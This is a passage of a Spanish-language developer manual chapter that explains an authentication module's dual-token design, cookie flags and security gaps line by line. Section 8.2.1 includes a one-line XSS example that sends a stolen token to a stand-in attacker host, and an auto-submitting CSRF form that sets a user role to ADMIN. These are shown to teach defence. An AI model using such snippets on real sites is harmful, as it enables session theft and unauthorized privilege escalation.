






# Capítulo 8 — El módulo de autenticación

> **Prerrequisitos:** [Capítulo 6](06-backend-shared.md) (errores, crypto) y [Capítulo 7](07-backend-middlewares.md) (JWT, `authenticate`, limitación de velocidad).
> **Archivos que se explican aquí:** `modules/auth/auth.routes.ts` (13 líneas), `auth.schemas.ts` (8), `auth.controller.ts` (63), `auth.repository.ts` (26), `auth.service.ts` (109). Total: 219 líneas, todas.
> **Al terminar** el lector podrá explicar el sistema de sesiones completo, evaluar sus garantías de seguridad, y señalar con precisión dónde el código **no hace** lo que su propio comentario afirma.

---

## 8.1. Introducción

Este es el primer módulo completo del manual y el más sensible del sistema: **si la autenticación falla, todo lo demás es irrelevante**. Los permisos más cuidados de `authorize` no valen nada si alguien puede obtener un token que no le corresponde.

El módulo implementa un esquema de **doble token**:

| | **Access token** | **Refresh token** |
|:--|:--|:--|
| Formato | JWT firmado | **Valor aleatorio opaco** (no es JWT) |
| Duración | 15 minutos | 7 días |
| Dónde vive en el cliente | **En memoria** (Zustand) | Cookie `httpOnly` |
| Se envía en | Cabecera `Authorization` | Cookie automática |
| ¿Se guarda en el servidor? | ❌ No | ✅ Sí, **hasheado** |
| ¿Se puede revocar? | ❌ No | ✅ Sí |
| Se verifica con | Firma HMAC | Consulta a la base |

💡 **Por qué dos tokens y no uno.** Es un intercambio entre dos propiedades incompatibles:

- Un token de **vida larga** es cómodo (el usuario no vuelve a escribir su contraseña) pero peligroso (si lo roban, sirve mucho tiempo).
- Un token de **vida corta** es seguro pero molesto (habría que reautenticarse cada 15 minutos).

**La solución de doble token obtiene ambas:** el token que viaja constantemente (y por lo tanto tiene más exposición) dura poco y no se puede revocar, pero eso importa poco porque expira solo. El token que dura mucho **casi nunca viaja** (solo a `/auth/refresh`), está en una cookie inaccesible a JavaScript, y **sí se puede revocar** porque el servidor lo tiene registrado.

Este capítulo desarma ese diseño pieza por pieza, y termina señalando **cinco huecos concretos**, entre ellos uno donde un comentario del código describe una protección que **no está implementada**.

---

## 8.2. Conceptos previos

### 8.2.1. Dónde guardar un token en el navegador

Esta es una de las decisiones de seguridad más discutidas del desarrollo web, y no hay una respuesta universalmente correcta.

| Lugar | Accesible a JS | Vulnerable a XSS | Vulnerable a CSRF | Sobrevive a recargar |
|:--|:-:|:-:|:-:|:-:|
| `localStorage` | ✅ Sí | 🔴 **Sí** | ✅ No | ✅ Sí |
| `sessionStorage` | ✅ Sí | 🔴 **Sí** | ✅ No | Solo en la pestaña |
| Cookie normal | ✅ Sí | 🔴 **Sí** | 🔴 **Sí** | ✅ Sí |
| **Cookie `httpOnly`** | ❌ **No** | ✅ **No** | 🔴 Sí (mitigable) | ✅ Sí |
| **Variable en memoria** | ✅ Sí | ⚠️ Parcial | ✅ No | ❌ **No** |

**Qué es XSS** (*Cross-Site Scripting*): un atacante logra ejecutar su JavaScript en la página de la víctima —por ejemplo, porque la aplicación renderiza sin escapar un texto que él controló. Ese script corre con todos los permisos de la página.

🔴 **Con el token en `localStorage`, un XSS es catastrófico:**

```js
// — código que un atacante inyectaría —
fetch('https://atacante.com/robar?t=' + localStorage.getItem('token'));
```

Una línea, y el atacante tiene la sesión.

**Con el token en una cookie `httpOnly`, esa línea no funciona:** `document.cookie` **no incluye** las cookies marcadas como `httpOnly`. El navegador las envía automáticamente en las peticiones, pero no las expone a JavaScript.

**Qué es CSRF** (*Cross-Site Request Forgery*): un sitio malicioso hace que el navegador de la víctima envíe una petición a la aplicación legítima. Como el navegador adjunta las cookies **automáticamente**, la petición llega autenticada.

```html
<!-- — en un sitio malicioso — -->
<form action="https://app.empresa.com/api/v1/users/5" method="POST">
  <input type="hidden" name="role" value="ADMIN">
</form>
<script>document.forms[0].submit();</script>
```

**Las cookies son vulnerables a CSRF precisamente por su ventaja: se envían solas.**

### 8.2.2. La estrategia de este proyecto



**La combinación resuelve ambos ataques:**

| Ataque | Access token | Refresh token |
|:--|:--|:--|
| **XSS** | ⚠️ Robable (está en JS) — pero **dura 15 minutos** | ✅ **Inaccesible** (`httpOnly`) |
| **CSRF** | ✅ Inmune (no se envía solo; hay que ponerlo a mano) | ✅ Mitigado (`sameSite: strict` + `path` acotado) |

💡 **Ninguno de los dos tokens es vulnerable a ambos ataques a la vez.** Esa es la clave del diseño: se reparten las debilidades de modo que ningún vector único comprometa la sesión de forma duradera.

🔴 **El costo de tener el access token en memoria: se pierde al recargar la página.** Por eso `App.tsx:35-62` implementa `useBootstrapSession`, que al arrancar llama a `/auth/refresh` para recuperar la sesión desde la cookie. Ese detalle del frontend existe **por esta decisión del backend**, y se explica en el capítulo 18.

### 8.2.3. Por qué el refresh token NO es un JWT

Podría serlo. No lo es, y el comentario de `auth.service.ts:40-41` explica por qué:

> *"Refresh token is opaque (not a JWT): random 256-bit value, stored hashed. If the DB leaks, the tokens are still unusable."*

| | JWT como refresh token | **Valor opaco (elegido)** |
|:--|:--|:--|
| Verificación | Solo firma, sin consultar la base | **Requiere consulta a la base** |
| Revocable | ❌ **No** (salvo lista negra) | ✅ **Sí** (marcar `revoked`) |
| Contiene datos | Sí, legibles | No, es ruido aleatorio |
| Si se filtra la base | Los tokens **siguen sirviendo** | ✅ Solo hay hashes: **inútiles** |
| Tamaño | ~200 bytes | 64 caracteres |

🔴 **La propiedad decisiva es la revocabilidad.** Un refresh token dura 7 días. Sin poder revocarlo, "cerrar sesión" sería una mentira: el token seguiría funcionando una semana. Con un valor opaco registrado en la base, `logout` marca `revoked = true` y el token muere en ese instante.

💡 **Y la segunda propiedad es igual de valiosa: solo se guarda el SHA-256.** Un volcado de la base da 64 caracteres hexadecimales por sesión, que no se pueden revertir. El atacante tendría los hashes y no podría construir el token correspondiente.

**Es exactamente el mismo razonamiento que con las contraseñas** — y contrasta, deliberadamente, con `drivers.encrypted_password`, que **sí** es reversible por un requisito de negocio explícito (§3.4.3).

---

## 8.3. `auth.routes.ts` línea por línea

```ts
1  import { Router } from 'express';
2  import { authenticate } from '../../middlewares/authenticate';
3  import { loginRateLimiter } from '../../middlewares/rate-limiter';
4  import { validate } from '../../middlewares/validate';
5  import { authController } from './auth.controller';
6  import { loginSchema } from './auth.schemas';
7
8  export const authRoutes = Router();
9
10 authRoutes.post('/login', loginRateLimiter, validate(loginSchema), authController.login);
11 authRoutes.post('/refresh', authController.refresh);
12 authRoutes.post('/logout', authController.logout);
13 authRoutes.get('/me', authenticate, authController.me);
```

**Trece líneas, cuatro endpoints, y una asimetría notable:** este es el **único** router del proyecto que **no** empieza con `authRoutes.use(authenticate)`.

💡 **Es correcto y es obligatorio.** Tres de los cuatro endpoints son públicos por naturaleza:

| Endpoint | ¿Por qué es público? |
|:--|:--|
| `POST /login` | Es donde se **obtiene** el token. Exigirlo sería circular. |
| `POST /refresh` | Se autentica **con la cookie**, no con el access token — y el caso típico es que el access token esté vencido. |
| `POST /logout` | Debe funcionar aunque el access token ya haya expirado. |
| `GET /me` | ✅ **Sí** requiere `authenticate`. |

**Línea 10 — la ruta más protegida del sistema**

```ts
authRoutes.post('/login', loginRateLimiter, validate(loginSchema), authController.login);
```

Tres middlewares en cadena, en el orden correcto:

1. `loginRateLimiter` — **primero**, porque es la comprobación más barata (una consulta a un `Map` en memoria). Rechaza al atacante antes de gastar CPU.
2. `validate(loginSchema)` — verifica el formato del cuerpo.
3. `authController.login` — el trabajo real.

🔴 **Es el único endpoint del proyecto con limitación de velocidad** (§7.7). Y es una elección razonable de prioridad —el login es el objetivo principal de la fuerza bruta— pero deja huecos:

⚠️ **`/refresh` NO tiene limitación de velocidad, y es un objetivo válido.** Un atacante podría probar valores de refresh token masivamente. El espacio de búsqueda es de 2²⁵⁶, así que la fuerza bruta es matemáticamente inviable — pero **cada intento cuesta una consulta a la base**. Sin límite, es un vector de agotamiento de recursos: miles de peticiones por segundo con tokens inventados, cada una consultando `refresh_tokens`.

⚠️ **`/logout` tampoco tiene límite**, con el mismo problema (consulta a la base por intento).

**Línea 11 — `/refresh` sin `validate`**

No hay esquema porque **no lee del cuerpo**: el token viene de la cookie. El controlador lo extrae directamente (`auth.controller.ts:35`).

⚠️ **Pero el valor de la cookie tampoco se valida.** Podría ser cualquier string de cualquier longitud. `sha256()` acepta lo que sea, y la consulta simplemente no encuentra nada. Es seguro, pero un `z.string().length(64).regex(/^[0-9a-f]+$/)` rechazaría lo obviamente inválido **antes** de tocar la base — que es exactamente la defensa contra el agotamiento de recursos que falta.

**Línea 13 — `GET /me`**

El único con `authenticate`. Devuelve el usuario de la sesión actual.

💡 **`/me` existe porque el JWT tiene el payload mínimo** (§6.4.1). El token solo lleva `sub` y `role`; el frontend necesita el nombre y el email para mostrarlos. En vez de engordar el token (que viaja en cada petición), se hace **una** consulta al arrancar.

**Y tiene un segundo propósito, más importante:** `getCurrentUser` **sí consulta la base** y verifica `isActive` (`auth.service.ts:104`). Es el único momento en que un access token válido se contrasta contra el estado real del usuario. Un usuario dado de baja que recargue la página es expulsado en ese punto, sin esperar los 15 minutos.

---

## 8.4. `auth.schemas.ts` línea por línea

```ts
1  import { z } from 'zod';
2
3  export const loginSchema = z.object({
4    email: z.string().email('Invalid email'),
5    password: z.string().min(1, 'Password is required'),
6  });
7
8  export type LoginDto = z.infer<typeof loginSchema>;
```

**Ocho líneas: el esquema más corto del proyecto.** Y esa brevedad tiene un motivo.

**Línea 4 — `z.string().email('Invalid email')`**

Valida el formato. Rechaza `admin`, `admin@`, `@empresa.com`.

⚠️ **La expresión regular de correo de Zod es deliberadamente laxa**, y eso está bien: el RFC 5322 permite direcciones tan exóticas (`"a b"@example.com`, comentarios entre paréntesis) que una validación estricta rechazaría direcciones legítimas. La única verificación real de un correo es enviarle un mensaje.

⚠️ **No hay `.toLowerCase()`.** El esquema **no normaliza** el email antes de buscar.

**¿Es un problema?** En este caso concreto, no — pero por accidente, no por diseño. La colación `utf8mb4_unicode_ci` de MySQL (§4.6.3) hace que `WHERE email = 'Admin@Empresa.com'` encuentre `admin@empresa.com`. **La protección está en la base, no en la aplicación.**

🔴 **Si alguien migrara a PostgreSQL (que distingue mayúsculas por defecto), el login dejaría de funcionar para quien escriba su email con una mayúscula** — y el diagnóstico sería difícil, porque el mismo usuario "a veces" puede entrar. Agregar `.toLowerCase()` al esquema haría el comportamiento independiente del motor:

```ts
// — mejora propuesta —
email: z.string().email('Invalid email').toLowerCase(),
```

**Línea 5 — `z.string().min(1, 'Password is required')`**

🔴 **Solo verifica que no esté vacía. NO valida longitud mínima, complejidad ni nada más — y eso es CORRECTO.**

**El razonamiento, que es contraintuitivo:**

| | Al **crear** una contraseña | Al **iniciar sesión** |
|:--|:--|:--|
| ¿Validar complejidad? | ✅ **Sí** | ❌ **No** |
| Por qué | Impedir contraseñas débiles | Ya existe; validar solo **filtra información** |

💡 **Si el login exigiera 8 caracteres, un atacante sabría que ninguna contraseña del sistema tiene menos de 8** — reduciendo su espacio de búsqueda. Y peor: los usuarios creados antes de una política de complejidad quedarían **bloqueados sin explicación**, incapaces de entrar con su contraseña correcta.

**La regla general: validar la política al establecer la credencial, nunca al verificarla.**

**El `.min(1)` sí es necesario** porque `bcrypt.compare('', hash)` funciona sin error y devuelve `false` — pero habría gastado los ~100 ms de bcrypt para nada. Rechazar la cadena vacía en el borde ahorra ese cómputo.

⚠️ **Lo que no está: un límite superior.** `z.string().min(1)` acepta una contraseña de 10 MB. `bcrypt.compare` sobre eso consumiría CPU proporcionalmente, **bloqueando el hilo único de Node**. Un `.max(200)` sería una defensa de un carácter contra un vector de denegación de servicio real.

🔴 **Y hay un detalle específico de bcrypt que conviene conocer: bcrypt trunca silenciosamente a 72 bytes.** Una contraseña de 100 caracteres y otra que comparta sus primeros 72 producen **el mismo hash**. No es un problema de seguridad práctico (72 caracteres son entropía más que suficiente), pero es un comportamiento sorprendente que un `.max(72)` documentaría explícitamente.

---

## 8.5. `auth.controller.ts` línea por línea

### 8.5.1. La configuración de la cookie (líneas 6-20)

```ts
6  const REFRESH_COOKIE = 'refresh_token';
7
8  /**
9   * Refresh token travels in an httpOnly cookie (Stage 1 decision):
10  * inaccessible to JS → minimizes XSS exposure. Scoped to the refresh path.
11  */
12 function setRefreshCookie(res: Response, token: string, expiresAt: Date): void {
13   res.cookie(REFRESH_COOKIE, token, {
14     httpOnly: true,
15     secure: isProduction,
16     sameSite: 'strict',
17     path: '/api/v1/auth',
18     expires: expiresAt,
19   });
20 }
```

**Cinco opciones, cinco decisiones de seguridad.** Vale la pena analizarlas una por una porque son el núcleo del esquema.

**Línea 14 — `httpOnly: true`**

Genera la directiva `HttpOnly` en la cabecera `Set-Cookie`. **El navegador se niega a exponer esta cookie a JavaScript**: `document.cookie` no la incluye, y no hay forma de leerla desde código de página.

🔴 **Es la protección más importante del archivo.** Sin ella, un XSS robaría el refresh token, y con él se pueden generar access tokens durante 7 días. Con ella, el atacante que logre ejecutar JavaScript en la página solo puede usar la sesión **mientras el usuario tenga la pestaña abierta**; no puede llevársela.

⚠️ **Lo que `httpOnly` NO impide.** Un XSS todavía puede **usar** la cookie: basta hacer `fetch('/api/v1/auth/refresh', {credentials:'include'})` desde la página comprometida, y el navegador adjuntará la cookie. El atacante obtiene un access token nuevo. **Lo que no puede es exfiltrar el refresh token** para usarlo después, desde otro lugar. La diferencia entre "sesión secuestrada mientras la pestaña está abierta" y "sesión robada por una semana" es enorme.

**Línea 15 — `secure: isProduction`**

Genera la directiva `Secure`, que hace que el navegador envíe la cookie **solo por HTTPS**.

**Por qué es condicional:** en desarrollo se usa `http://localhost:5173`. Con `secure: true` fijo, el navegador **nunca enviaría la cookie** en desarrollo, y `/auth/refresh` fallaría siempre — con un síntoma desconcertante: el login funciona, pero recargar la página expulsa al usuario.

💡 **Es un buen ejemplo de configuración dependiente del entorno bien resuelta.** Y depende directamente de que `NODE_ENV` esté bien escrito, lo que enlaza con la validación `z.enum` de §5.3.2: `NODE_ENV=prod` daría `isProduction = false` y **la cookie viajaría en claro en producción**.

**Línea 16 — `sameSite: 'strict'`**

Es la defensa contra CSRF. Los tres valores posibles:

| Valor | Cuándo se envía la cookie |
|:--|:--|
| `'strict'` | **Solo** si la petición se origina en el mismo sitio. Ni siquiera al seguir un enlace desde otro sitio. |
| `'lax'` | Igual, pero **sí** en navegaciones de nivel superior con GET (seguir un enlace). |
| `'none'` | Siempre. Requiere `secure: true`. |

🔴 **`'strict'` es la opción más segura y tiene una consecuencia de despliegue que hay que entender bien.**

**Qué cuenta como "el mismo sitio" (*same-site*):** el **dominio registrable**, no el origen completo. **El puerto NO importa**, y el subdominio tampoco.

| Frontend | Backend | ¿Same-site? | ¿Funciona `strict`? |
|:--|:--|:-:|:-:|
| `localhost:5173` | `localhost:3000` | ✅ Sí | ✅ Sí |
| `app.empresa.com` | `api.empresa.com` | ✅ Sí | ✅ Sí |
| `empresa.com` | `api.empresa.com` | ✅ Sí | ✅ Sí |
| **`app.vercel.app`** | **`api.render.com`** | ❌ **No** | 🔴 **NO** |

🔴 **El último caso es un modo de fallo real y muy probable.** Si alguien despliega el frontend en un servicio y el backend en otro (algo habitual con planes gratuitos), **el navegador dejaría de enviar la cookie de refresh**. El síntoma: el login funciona, pero recargar la página o esperar 15 minutos expulsa al usuario, **sin ningún error en el servidor**. El diagnóstico es difícil porque nada falla: la cookie simplemente no llega.

**La corrección para ese escenario sería `sameSite: 'none'` con `secure: true`** — lo que reintroduce la exposición a CSRF y obliga a agregar tokens anti-CSRF. Es un cambio arquitectónico, no un ajuste.

💡 **`'strict'` es la elección correcta para el despliegue previsto** (frontend y backend bajo el mismo dominio). Lo criticable es que **esa restricción de despliegue no está documentada en ningún lado**.

**Línea 17 — `path: '/api/v1/auth'`**

🔴 **Esta es la línea más subestimada del archivo, y es excelente.**

El navegador envía una cookie **solo** a las rutas que empiezan con su `path`. Con este valor:

| Petición | ¿Se envía la cookie? |
|:--|:--|
| `POST /api/v1/auth/refresh` | ✅ Sí |
| `POST /api/v1/auth/logout` | ✅ Sí |
| `GET /api/v1/vehicles` | ❌ **No** |
| `POST /api/v1/trips` | ❌ **No** |

💡 **Consecuencia: el refresh token NO viaja en las 57 peticiones normales.** Solo en las 2-3 de autenticación.

**Los tres beneficios concretos:**

1. **Menos exposición.** Cada viaje de un secreto es una oportunidad de fuga (un proxy mal configurado, un log de red, una extensión del navegador).
2. **Menos bytes.** 64 caracteres × miles de peticiones.
3. **Aislamiento del daño.** Si un endpoint cualquiera tuviera un fallo que registrara todas las cabeceras, el refresh token **no estaría** entre ellas.

⚠️ **Es el valor por defecto lo que sería peligroso:** sin `path`, la cookie se establece con el path de la petición actual (`/api/v1/auth/login`), lo que casualmente también funcionaría. Pero muchos desarrolladores ponen `path: '/'` por costumbre, y eso mandaría el token a todas partes.

**Línea 18 — `expires: expiresAt`**

Fecha de vencimiento **absoluta**, calculada en el servicio (`auth.service.ts:43-45`).

⚠️ **`expires` (fecha absoluta) vs `maxAge` (duración relativa).** `expires` depende del **reloj del cliente**: un navegador con la fecha mal configurada podría considerar la cookie vencida (o eterna). `maxAge` es inmune a eso.

**¿Importa aquí?** Poco, porque **el servidor también verifica el vencimiento** (`auth.repository.ts:12`: `expiresAt: { gt: new Date() }`). Aunque el navegador guardara la cookie eternamente, el servidor la rechazaría. **La cookie es una comodidad; la base de datos es la autoridad.**

💡 **Ese principio —el cliente sugiere, el servidor decide— aparece varias veces en este módulo y es lo que lo hace robusto.**

⚠️ **Lo que falta: `domain`.** Sin especificarlo, la cookie se limita al host exacto que la emitió. Es lo más restrictivo, y es correcto por defecto. Solo haría falta si frontend y backend estuvieran en subdominios distintos y se quisiera compartirla.

### 8.5.2. `login` (líneas 23-31)

```ts
async login(req: Request, res: Response, next: NextFunction): Promise<void> {
  try {
    const session = await authService.login(req.body as LoginDto);
    setRefreshCookie(res, session.refreshToken, session.refreshTokenExpiresAt);
    res.status(200).json({ data: { user: session.user, accessToken: session.accessToken } });
  } catch (err) {
    next(err);
  }
},
```

**El patrón habitual del proyecto**, con una diferencia importante en la línea 27.

🔴 **La respuesta NO incluye `refreshToken`.** El servicio devuelve un objeto con cuatro campos (`user`, `accessToken`, `refreshToken`, `refreshTokenExpiresAt`), y el controlador envía **solo dos**.

**Es deliberado y es esencial:** si el refresh token llegara en el cuerpo JSON, el JavaScript del frontend podría leerlo — **anulando por completo el beneficio de `httpOnly`**. El token viaja **exclusivamente** por el canal de cookies, que JavaScript no puede tocar.

⚠️ **La selección es manual y por lo tanto frágil.** Nada impide que alguien "simplifique" la línea 27 a `res.json({ data: session })` —que parece más limpio— y filtre el refresh token sin darse cuenta. **Una estructura de retorno tipada que separe explícitamente "lo que va al cuerpo" de "lo que va a la cookie" haría el error imposible:**

```ts
// — mejora propuesta —
interface LoginResult {
  body: { user: PublicUser; accessToken: string };
  cookie: { token: string; expiresAt: Date };
}
```

**`res.status(200)`, no 201.** El login no crea un recurso desde el punto de vista de la API. (Aunque técnicamente sí crea una fila en `refresh_tokens`, esa es una consecuencia interna, no el recurso que el cliente pidió.)

### 8.5.3. `refresh` (líneas 33-42)

```ts
async refresh(req: Request, res: Response, next: NextFunction): Promise<void> {
  try {
    const token = req.cookies?.[REFRESH_COOKIE] as string | undefined;
    const session = await authService.refresh(token ?? '');
    setRefreshCookie(res, session.refreshToken, session.refreshTokenExpiresAt);
